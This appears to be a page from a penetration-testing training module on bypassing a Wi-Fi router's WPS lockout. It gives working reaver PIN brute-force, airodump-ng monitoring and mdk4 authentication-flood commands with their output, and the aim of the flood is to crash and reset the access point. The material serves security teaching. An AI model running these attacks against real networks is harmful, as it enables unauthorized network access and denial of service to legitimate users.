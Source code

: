 #### Bypassing the WPS Reset Lock through MDK4

To begin this technique, we will need three terminals. In the first terminal, we will initiate the online bruteforcing attempt against the PIN.

```shell
sudo reaver -l 100 -r 3:45 -i wlan0mon -b 60:38:E0:XX:XX:XX -c 11

```

In the second terminal, we can monitor our `WPS Locked` status with `airodump-ng` and the `--wps` filter. We also specify our BSSID and channel, to exclude any additional access points from our list.

```shell
airodump-ng --wps --bssid 60:38:E0:XX:XX:XX -c 11 wlan0mon

CH 11 ][ Elapsed: 0 s ][ 2023-01-02 23:29

 BSSID              PWR RXQ  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH WPS    ESSID

 60:38:E0:XX:XX:XX  -52   0       14        0    0  11   65   WPA2 CCMP   PSK Locked  HTB-Wireless

```

Suppose our access point displays a locked status. This will halt all PIN attempts occurring in the first terminal. Luckily, [MDK4](https://github.com/aircrack-ng/mdk4) includes functionality in its attack modules for both Authentication Denial-of-Service and EAPOL Start and Logoff Packet Injection flooding. In our third terminal, we can employ the following command to test for Authentication Denial-of-Service flooding. We specify attack module `a` for `Authentication Denial-of-Service`, and our access point's MAC address with `-a`.

```shell
sudo mdk4 wlan0mon a -a 60:38:E0:XX:XX:XX

Connecting Client BC:AC:DC:23:D1:31 to target AP 60:38:E0:XX:XX:XX
Packets sent:      1 - Speed:    1 packets/sec
Connecting Client 84:24:10:39:FD:D1 to target AP 60:38:E0:XX:XX:XX
Packets sent:   1618 - Speed: 1617 packets/sec
Connecting Client 8D:D3:44:A8:23:6B to target AP 60:38:E0:XX:XX:XX

```

`Authentication Denial-Of-Service` attacks will continue to spoof MAC addresses to authenticate to the network. This floods the access point's client list, and in many cases causes the access point to crash, thus resetting it. This can enable us to redeem an unlocked WPS status.

Alternatively, we could attempt this same attack with the `Intelligent Test` on the access point. The [Intelligent Test](https://manpages.debian.org/bookworm/mdk4/mdk4.2.en.html#i~2) connects clients against the AP and reinjects sniffed data to keep them alive.

```shell
sudo mdk4 wlan0mon a -i 60:38:E0:XX:XX:XX

```

If our access point is still displaying a locked status in our second terminal, we could then attempt an `EAPOL Start and Logoff Packet Injection` attack.
